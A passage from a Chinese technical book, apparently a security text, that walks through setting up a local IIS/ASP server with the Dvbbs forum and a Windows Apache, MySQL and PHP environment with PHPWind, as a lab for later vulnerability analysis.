我们在“默认网站”上单击右键，选择属性选项。这样就弹出了如图 1-35 所示的属性对话框。在属性设置对话框中，可以看到很多属性页，如【网站】、【ISAPI 筛选器】、【主目录】、【目录】、【文档】、【目录安全性】、【HTTP 头】、【自定义错误】，下面介绍其中重要的属性页。

图 1-35 属性页

在网站属性页中，最主要的设置是 TCP 端口的设定。对于 WWW 协议而言，默认端口是 80。通常，我们在访问 80 端口的 Web 服务器时，只需要输入 IP 地址或者域名即可，例如访问 `http://www.google.com/`。而如果对方设置的是 8080 端口，则必须采用 `http://www.google.com:8080`。这里我们不需要设置任何东西，默认即可。

接下来就是要学习主目录属性页的内容。在图 1-35 中，选择主目录就进入了，如图 1-36 所示。在主目录属性页中，最主要的是本地路径的位置。通过改变主目录，可以让网络服务器对应不同的网站内容。

如果主目录设置成“D:\asp”，在浏览器中输入 `http://localhost/index.asp`，则访问的是“D:\asp\index.asp”；而如果将主目录设置成“E:\Script”，同样在浏览器中输入 `http://localhost/index.asp`，则访问的是“E:\Script\index.asp”文件。这里我们也不需要进行设置，默认即可。

图 1-36 主目录

另外，在主目录属性页中，还可以进行客户端访问权限的设置。为了保证网站的安全性，在默认情况下，只要选择“读取”、“记录访问”以及“索引资源”就可以了。

在图 1-36 中，单击“配置”按钮，就可以进行更多设置，如图 1-37 所示。

图 1-37 应用程序配置

在图 1-37 中，有三个属性设置页，其中“选项”和“调试”很重要。在图 1-37 中，“启动会话状态”表示一个客户如果在设定期限内没有活动，则服务器自动放弃保存在客户端的信息以及相关信息，默认为 20 分钟。

“启用缓冲”必须选上，因为在 ASP 编程中，很多时候需要利用缓冲输出数据。“启用父路径”必须选上，因为在进行网页链接设计的时候，经常需要使用相对路径来表示；如果不选上，则不能访问父路径。

“默认语言”表示在进行 ASP 编程的时候，默认脚本语言是 VBScript。不过在进行 ASP 开发时，通常还会使用 JavaScript，所以只需要在 VBScript 后添加 :JavaScript 即可。选择“调试”属性页，如图 1-38 所示。

图 1-38 调试属性页

在图 1-38 中需要注意的是，要选择“启动 ASP 服务器脚本调试”和“启动 ASP 客户端脚本调试”两个选项。这样，在 ASP 开发过程中，如果程序有错误，会直接在浏览器中显示错误位置以及错误原因，给开发者带来很多方便。

我们再返回到前面的文档属性页。在该属性页中，主要是默认的网页后缀，如图 1-39 所示。这里我们要自己添加一些后缀，如 index.asp，点击“添加”按钮就可以添加后缀了，如图 1-40 所示。

图 1-39 文档属性页

图 1-40 添加默认文档

所谓默认文档，就是在输入一个 IP 或者网址后，不需要输入具体的访问文件名。例如图 1-40 中添加的 index.asp，同时在主目录下也有一个 index.asp 文件。则我们只需要输入 http://localhost/ 就可以直接访问 index.asp 文件了。

在默认的情况下，IIS 的 Web 目录是在 wwwroot 文件夹下，所以如果我们要发布网站，只需要把系统复制到该文件夹下就可以了。不过更多时候我们是使用虚拟目录来发布网站。

在介绍虚拟目录之前，先要明白一个概念，那就是访问 ASP 文件的时候不能使用物理路径，而必须使用虚拟路径。

如在主目录“C:\Inetpub\wwwroot”下面有一个文件 hello.asp 和另一个文件 hello.html，如果要访问 hello.asp，则必须在浏览器中输入 http://localhost/hello.asp；而如果输入 C:\Inetpub\wwwroot\hello.asp，则不能够得到所要的结果。而如果要访问 hello.html，则使用 http://localhost/hello.html 和 C:\Inetpub\wwwroot\hello.html 的效果是一样的。

还有就是在很多情况下，一台机器上可能在不同的路径下都有 ASP 网页，但又不可能都集中在主目录（C:\Inetpub\wwwroot\）下，此时，为了都能够通过浏览器访问每一个 ASP 页面，就需要通过建立虚拟目录来解决这个问题。

创建虚拟目录也很简单，单击“默认网站”右键，选择“新建”然后就可以看到“虚拟目录”，点击进去就弹出了创建虚拟目录的对话框，如图 1-41 所示。

图 1-41 创建虚拟目录向导

单击“下一步”就进入了图 1-42 所示的界面，在别名文本框中输入自己所要的别名，例如 Script。

图 1-42 输入别名

点击“下一步”就进入了图 1-43 所示的界面，通过“浏览”按钮就可以选择需要的虚拟目录的路径了。也就是可以通过浏览器访问的文件路径，例如这里我输入 H:\Script。

图 1-43 输入虚拟目录的路径

单击“下一步”按钮，弹出图 1-44 所示的结果。在图中，我们可以设定目录的访问权限，通常只要选择头两项“读取”和“运行脚本（ASP）”即可。

图 1-44 设置访问权限

再单击“下一步”就完成了对虚拟目录的安装了，创建完目录之后，可以在 IIS 的管理器中看到刚刚创建的虚拟目录，如图 1-45 所示。

图 1-45 创建的 Script 虚拟目录

比如我们刚才前面的 hello.asp 文件，我们把它放入到 H:\Script 目录下，然后在浏览器中输入 http://localhost/Script/hello.asp 就可以访问该文件了。

在 IIS 中不仅可以在 C:\Inetpub\wwwroot 下发布网站，还可以通过创建虚拟目录来创建网站。上面都是在理论上的介绍，没有接触实际的网站搭建，所以下面我就用搭建动网论坛来介绍实际的网站搭建。

首先去动网的官方网站上下载动网论坛（http://down.dvbbs.net），我所搭建的是 dvbbs 7.1.0 版本的。下载之后，将被解压的文件夹重新命名为 Dvbbs。将其复制到 C:\Inetpub\wwwroot 文件夹下，或者也可以通过虚拟路径来创建一个目录。

我们直接在浏览器中输入 http://localhost/Dvbbs/index.asp 就可以访问动网论坛了，如图 1-46 所示。在进入动网论坛的后台管理看看，如图 1-47 所示。

图 1-46 成功安装动网论坛

图 1-47 进入动网论坛管理后台

也许会有人会问，这样就把论坛搭建好了？是的，就搭建好了。可能还会有人会问怎么没有用到数据库啊？其实是用到了，动网论坛后台自然有数据库，不过这个系统与后台数据库的通信都已经在动网论坛的代码中配置好了，直接使用即可。如果还不相信的话，可以不安装数据库，就直接安装 IIS 看看，保证系统运行不了。

其他的 ASP 系统的搭建过程也差不多，而且每一个系统都会有安装提示，只需要按照安装提示进行就可以顺利把系统搭建好。有了这个平台，在以后分析 ASP 系统中的漏洞就方便多了。

## 1.3 PHP服务器的搭建

这一节为大家讲述 PHP 环境的搭建，采用的是 Windows + Apache + PHP + MySQL 的组合。因为搭建 PHP 环境的软件版本较多，所以这里我就列举出本节中所使用的软件版本：

- 操作系统：Windows XP SP2
- PHP：php-5.2.1-win32-installer.msi
- MySQL：mysql-5.0.27-win32.zip
- Apache：apache_2.0.59-win32-x86-no_ssl.msi

下面就采用图文并茂的方式详细介绍 PHP 环境的搭建。

### 1.3.1 Apache的安装

Apache 是一种开放源码的 HTTP 服务器，可以在大多数计算机操作系统中运行。由于其可用于多个操作系统平台和强大的安全性被广泛使用，是最流行的 Web 服务器端软件之一。

Apache 起初是由 Illinois 大学的 Urbana-Champaign 国家高级计算程序中心开发。此后，Apache 被开放源代码团体的成员不断地发展和加强。Apache 服务器拥有牢靠可信的美誉，已用在超过半数的因特网站中——特别是几乎所有最热门和访问量最大的网站。Apache 一直是 Internet 上最流行的 HTTP 服务器：1999 年 5 月它在 57% 的网页服务器上运行；到了 2005 年 7 月这个比例上升到了 69%。

这里我采用的是 Apache 的 2.0.59 版本来向大家介绍它的安装。Apache 的 Windows 版本我们可以从其官方网站 http://httpd.apache.org/ 上下载，这里我们选择 Apache 2.0.59 Released，如图 1-48 所示。

图 1-48 选择所要下载的版本

点击“Download”按钮后，就可以进入下载页面了。不过依然会有很多选项，我们也知道 Apache 是可以运行在多个操作系统上的，所以有几个也不足为怪了，我们只需要选择 Windows 下的就可以了，如图 1-49 所示。

图 1-49 选择我们要下载的 Apache

下载到本地计算机后，就可以开始安装了，双击它就进入了安装阶段，如图 1-50 所示。

图 1-50 Apache 的安装界面

我们一路点击“Next”按钮下去就可以安装了，不过中间会要求我们填写一些信息。我们在上面两项都填上“localhost”，在最下面填上你自己的邮件地址就可以了，如图 1-51 所示。同时最下面还有两个选项，即 Web 服务器的默认端口，一个是 80，另一个是 8080，这里我们选择默认即可，即 80 端口，最后点击“Next”继续安装。

图 1-51 对服务器的网络进行设置

继续安装，会碰到要求我们选择安装类型（setup type）。我们选择默认就可以了，即按典型方式（Typical）安装，如图 1-52 所示。

图 1-52 选择安装类型

点击“Next”后进入选择安装目录，我们通过点击“Change...”按钮改变 Apache 服务器的安装目录，根据个人喜好来决定。不过这里我们按默认路径安装，如图 1-53 所示。

图 1-53 选择 Apache 的安装目录

设置完这一项后，就可以进行安装了，点击“Install”按钮即可。在安装过程中会出现两个 DOS 窗口弹出，这是正常情况。完成之后，我们点击“Finish”按钮完成对 Apache 服务器的安装，如图 1-54 所示。

图 1-54 Apache 完成安装

完成 Apache 服务器的安装之后，Apache 将自动配置 Windows 系统下的一项系统服务并立刻启动运行。我们可以在 Windows 的任务栏右边见到一个鸡毛掸子的小图标，如果 Apache 处于运行状态，则可以看见中间有一个绿色的小箭头。单击它我们可以停止、开启、重启 Apache 服务器，如图 1-55 所示。

图 1-55 Apache 的标志

还可以通过开始菜单命令进入【所有程序】→【Apache HTTP Server 2.0.59】→【Control Apache Server】中，也可以对 Apache 进行停止、开启、重启操作。还可以执行菜单命令【所有程序】→【Apache HTTP Server 2.0.59】→【Configure Apache Server】→【Edit HTTPD.CONF】来打开 Apache 服务器的配置文件，里面显示着 Apache 的配置情况。

作为判断 Apache 是不是真的运行在了我们本地机器上，只需要在浏览器中输入 http://localhost/，显示如图 1-56 所示的界面就代表 Apache 已经被成功安装了。

图 1-56 Apache 服务器被成功安装

### 1.3.2 MySQL数据库的安装

我们要搭建一个服务器肯定少不了数据库的支持。而对于 PHP 环境，MySQL 是最好的选择。以下就是安装 MySQL 5.0.27 版本的过程，当然是 Windows 环境下的 5.0.27 版本。进入 http://dev.mysql.com/downloads/mysql/5.0 就可以下载到我们所需要的 MySQL 版本了。

现在开始安装 MySQL 数据库，双击就可以进入它的安装界面，如图 1-57 所示。

图 1-57 MySQL 的安装界面

点击“Next”后就进入了 MySQL 的安装类型，它提供了三种选择：Typical（典型安装）、Complete（完全安装）、Custom（自定义安装）。因为是初次使用，选择 Typical 就可以了，即默认安装，如图 1-58 所示。

图 1-58 选择安装类型

再点击“Next”按钮就进入 MySQL 登录的选项了，默认情况下是“Create a new free MySQL.com account”，不过我们并不需要，所以选择“Skip Sign-Up”，即跳过登录，如图 1-59 所示。

图 1-59 跳过登录

选完这个选项后，MySQL 就开始安装了。安装完成之后会问是否要实现配置 MySQL 数据库，默认情况下是现在就配置，如图 1-60 所示。

图 1-60 是否当前配置 MySQL 数据库

这里按照默认选择，即当前配置数据库。单击“Finish”按钮后就进入了配置页面，如图 1-61 所示。

图 1-61 MySQL 配置页面

单击“Next”就进入了配置 MySQL 的场合了，有两个选项：Detailed Configuration（详细配置）、Standard Configuration（标准配置）。这里选择 Detailed Configuration，如图 1-62 所示，用以介绍如何配置 MySQL 数据库。

图 1-62 选择数据库配置类型

点击“Next”后就要求选择服务器的类型，如图 1-63 所示。这里有 Developer、Server 和 Dedicated Server 三种选择。它们决定着 MySQL 服务器将试图保存多少主内存。内存越大，服务器速度也就越快，但对于其他程序影响也比较大。默认选项是 Developer，这里我们也这样设置。

图 1-63 选择服务器类型

选完之后，点击“Next”后就要设置当前数据库的用途了。我们选择默认即可，之后还有很多设置我们都选默认，一路点击“Next”就可以了。不过到了一个地方会要求我们设置当前数据库的密码，如果不设置就安装不了。这里按照个人习惯设定一个密码即可，如图 1-64 所示。

图 1-64 设置数据库密码

设置完密码后，进入下一步就是执行我们对 MySQL 所做的设置，我们点击“Execute”即可，如图 1-65 所示。

图 1-65 执行我们对 MySQL 所做的设置

如果设置执行成功的话，那么在图 1-66 中的四个选项前都会有一个符号“√”，如图 1-66 所示；而如果安装失败的话，则在前面将显示符号“×”。

图 1-66 设置被成功执行

最后，我们可以选择菜单【开始】→【所有程序】→【MySQL】→【MySQL Server 5.0】→【MySQL Command Line Client】进入 MySQL 数据库的命令控制台。因为我们刚才在设置的时候已经对其设置了密码，所以一进入就要求输入密码，如图 1-67 所示。输入密码之后，就进入了命令控制台，如图 1-68 所示。

图 1-67 要求输入密码

图 1-68 进入 MySQL 的控制台客户端

这样，我们的 MySQL 数据库也安装完成了，接着来介绍 PHP 的安装。

### 1.3.3 PHP的安装

PHP 的作用是用来解释服务端的 PHP 语言，利用它可以将 PHP 代码解释之后返回到客户端中去。这里介绍的 PHP 安装过程使用的是 Windows 下的 5.2.1 版本。可以到 PHP 的官方网站 http://www.php.net/downloads.php 中去下载，如图 1-69 所示。

图 1-69 PHP 5.2.1 版本下载页面

我们单击“PHP 5.2.1 installer”就可以进入该版本的下载页面了，如图 1-70 所示。点击“cn.php.net”或者“cn2.php.net”就可以下载。

图 1-70 PHP 下载地址

下载到本地计算机后，双击就进入了安装界面，如图 1-71 所示。

图 1-71 PHP 的安装界面

一直点击“Next”就是了，期间要求我们改变 PHP 的安装路径，使用默认路径 C:\Program Files\PHP 就可以了。最后就要求我们选择当前 Web 服务器的类型，因为安装的是 Apache 2.0.59，所以这里一定要选择 Apache 2.0.X Module，如图 1-72 所示。

图 1-72 选择服务器类型及版本

选完后，进入下一步。这步也是非常关键。它要求我们选择 Apache 的配置选项目录。前面我们的 Apache 是默认安装的，故它的路径为 C:\Program Files\Apache Group\Apache2。

所以这里要通过按钮“Browse...”选择该路径，如图 1-73 所示。



图 1-73 Apache 的配置选项的目录

之后还是点击“Next”，然后点击“Install”进行安装。当快安装完的时候，会问是否对 Apache 进行配置，我们点击“是”就可以自动对服务器进行配置，如图 1-74 所示。最后就完成了 PHP 的安装，如图 1-75 所示。



图 1-74 是否想对 Apache 进行配置



图 1-75 PHP 安装完成

## 1.3.4 PHP环境的测试

上面三个小节分别介绍了 Apache、MySQL 及 PHP 的安装，不过光会安装这些软件仍然不能够搭建一个 PHP 环境，还必须要对其进行设置。我们先进入 PHP 的安装目录，把文件 php.ini-dist 复制到 C:\Windows 下并将其改名为 php.ini。

复制到 C:\Windows 后，要对 php.ini 文件中的一些选项进行设置：在文件 php.ini 中查找到 Data Handling 后，在其下面找到 post_max_size = 8M。这是 PHP 将接受的 POST 数据最大大小，可更改为 20M，如图 1-76 所示。



图 1-76 将 PHP 接收的数据改为 20M

在 File Uploads 下找到 upload_max_filesize = 2M，允许上传的最大文件大小可更改为 20M。这样就把 php.ini 文件设置完了。如果我们在前面安装 PHP 的时候没有选择对 Apache 服务器进行配置的话，那么接下来就要对其进行配置了。该文件在 `C:\Program Files\Apache Group\Apache2\conf` 下，我们打开这个文件后，在文件中添加以下代码：

```txt
LoadModule php5_module "C:/Program Files/PHP/php5apache2.dll"
AddType application/x-httpd-php .php
PHPIniDir "C:/Program Files/PHP/"
```

如果在安装 PHP 的时候对 Apache 服务器进行配置了的话（默认情况下是配置），那么我们就不用设置了。在 Apache 服务器的目录中，文件夹 `htdocs` 是用来发布网页的，即我们把网页放到那个目录下就可以在浏览器中浏览了。

在文件夹 `htdocs` 建立一个文件，把它命名为 `test.php`。它里面就写 `<?php phpinfo(); ?>` 这一行代码。其中 `phpinfo` 是 PHP 下的一个函数，它用来获取 PHP 环境的各种参数和变量。这样我们就可以在浏览器中输入 `http://localhost/test.php`，就可以看到 PHP 的各种内容了。

不过在输入 `http://localhost/test.php` 之前，大家一定要注意，要重启 Apache 服务器。这是因为只要对 `php.ini` 或 `httpd.conf` 文件进行了修改，就要重启 Apache 服务器。我们用 Web 浏览器打开 `http://localhost/test.php` 页面，如果一切顺利，就可以看到如图 1-77 所示的页面了。



图 1-77 PHP 环境的一些配置信息

这个时候，我们离 PHP 完全安装完就一步之差了。我们都知道网站是少不了后台数据库的支持，所以在安装完数据库之后，必须设定一些变量及参数，使得 PHP 能够访问 MySQL 数据库，从而实现对数据库的通信。

首先将 `C:\Program Files\PHP` 下的 `libmysql.dll` 文件，及 `ext` 子文件夹下的 `php_mysql.dll` 和 `php_mysqli.dll` 文件复制到 `C:\Windows\system32` 下面去。

不过有一件很奇怪的事，我在安装完了 `php-5.2.1-win32-installer.msi` 后，并未找到 `libmysql.dll`、`php_mysql.dll` 及 `php_mysqli.dll` 这三个文件。后来我又下载 `php-5.1.6-Win32.zip`，把它解压后将这三个文件复制到 `C:\Windows\system32` 中去。如果在搭建服务器的过程中也出现了这个情况，则可以使用此方法来弥补。

复制完成之后，我们必须将 `php.ini` 中 `extension=php_mysql.dll` 和 `extension=php_mysqli.dll` 两个选项前的分号去掉，这样才能够支持 MySQL 数据库，如图 1-78 所示。



图 1-78 设置 MySQL 的变量

我们重启动一下 Apache，然后打开 `http://localhost/test.php` 页面，在该页面的下方可以看到对 mysql 和 mysqli 接口参数的描述，如图 1-79 所示。



图 1-79 后台数据库已经配置好

这样，我们一个完整的 PHP 环境就搭建完成了。要在该环境下搭建应用就非常方便了。比如我们要搭建著名的 PHPWind 论坛，首先我们将 PHPWind 系统下的文件夹放入到 `C:\Program Files\Apache Group\Apache2\htdocs` 下，然后输入 `http://localhost/upload/install.php` 就进入了 PHPWind 论坛的安装界面，如图 1-80 所示。



图 1-80 PHPWind 论坛安装界面

点击下方的“同意”按钮就进入 PHPWind 论坛的设置数据库资料与管理员账号页面了，如图 1-81 所示。其中数据库密码就是我们安装 MySQL 数据库时候的密码，而创始人资料中要输入的密码则是论坛后台管理员的密码。我们把这两个参数输入之后，就点击“开始安装”论坛。

